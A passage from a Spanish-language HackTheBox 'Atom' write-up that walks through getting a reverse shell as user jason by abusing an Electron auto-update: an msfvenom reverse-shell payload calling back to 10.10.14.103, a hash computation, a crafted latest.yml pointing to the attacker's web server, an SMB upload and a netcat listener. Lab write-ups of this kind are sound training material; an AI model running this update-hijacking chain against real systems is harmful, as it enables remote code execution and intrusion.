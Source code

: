 :O

Pero siento que quedo desorganizado, así que haremos una vez más el proceso mucho más directo:

### Obtenemos Reverse Shell como <u>jason</u> [⌖](#expl-revsh-jason) {#expl-revsh-jason}

Generamos **binario `.exe` malicioso**:

```bash
❱ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.103 LPORT=4433 -f exe -o try\'now.exe
```

Le volvemos a generar un hash, ya que si cambia el contenido del programa, cambia el hash:

> Si el programa es el mismo no hace falta volver a generarlo, ya que toma el hash, lo busca en las "updates" y ejecuta lo que este relacionado a él, o sea, no necesitariamos el servidor web.

```bash
❱ shasum -a 512 "try'now.exe" | cut -d " " -f1 | xxd -r -p | base64 | tr -d '\n'
AOztWPlDvzM4pyop/YcVeKbFXQzDOSRrtOb0NUGfxeDPaDTfRJtu/qDYmXjh76gMbsZx4coGmgCvxUQ1J48dXQ==
```

Ahora actualizamos el archivo `latest.yml`:

```yml
version: 1.2.3
path: http://10.10.14.103:8000/try'now.exe
sha512: AOztWPlDvzM4pyop/YcVeKbFXQzDOSRrtOb0NUGfxeDPaDTfRJtu/qDYmXjh76gMbsZx4coGmgCvxUQ1J48dXQ==
```

Nos ponemos en escucha, tanto por el servidor web como por **netcat** (puerto **4433**).

Subimos el objeto `latest.yml` a alguna carpeta compartida:

```bash
smb: \client2\> put latest.yml 
```

Yyyyy en nuestro listener tendríamos la **Reverse Shell** (:

> La idea que teniamos de modificar el binario con cositas maliciosas cayo en picada :( no era tan por ahí, pero igual no estabamos TAAAAN erroneos e.e

...

> [Script que nos automatiza todo el proceso y genera Shell, **electroPWn.py**](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/atom/electroPWn.py).

![340bash_electroPWn_py](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/atom/340bash_electroPWn_py.png)

***(Ten en cuenta que más o menos cada 30 segundos ejecuta lo que hay en las carpetas cliente, entonces puede ser random que te lance la*** Reverse Shell ***en el tiempo que esta escuchando el programa (igual puedes jugar con esos tiempos), pero de 10 intentos, 7 me la devolvió en una sola ejecución.)*** Pero repito, **es bastante random** :(

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}
